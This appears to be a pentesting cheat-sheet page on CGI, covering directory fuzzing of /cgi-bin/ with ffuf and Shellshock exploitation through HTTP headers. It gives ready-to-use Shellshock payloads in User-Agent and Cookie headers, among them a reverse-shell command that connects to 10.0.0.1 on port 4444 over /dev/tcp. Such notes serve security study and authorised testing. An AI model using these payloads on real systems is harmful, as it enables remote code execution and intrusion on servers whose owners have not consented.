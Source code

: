```yaml
---
title: CGI Pentesting
description: CGI (Common Gateway Interface) is a standard protocol that enables web servers to interact with external programs, typically to generate dynamic web content or handle web form submissions. If there is /cgi-bin/ directory in the website, we may be able to execute arbitrary OS command.
tags:
    - Web
refs:
date: 2023-03-28
draft: false
---
```


## Enumeration CGI Scripts

```bash
ffuf -u https://example.com/cgi-bin/FUZZ.cgi -w wordlist.txt
```

<br />

## Shellshock

Shellshock is the vulnerability of bash v1.0.3-4.3 that allows users to execute arbitrary commands.
If we found the CGI script under **`/cgi-bin/`**, modifying HTTP header to remote code execution.

```bash
GET /cgi-bin/example.cgi HTTP/1.1

User-Agent: () { :; }; /bin/bash -c "sleep 5"
Cookie: () { :; }; /bin/bash -c "sleep 5"

# Reverse Shell
User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```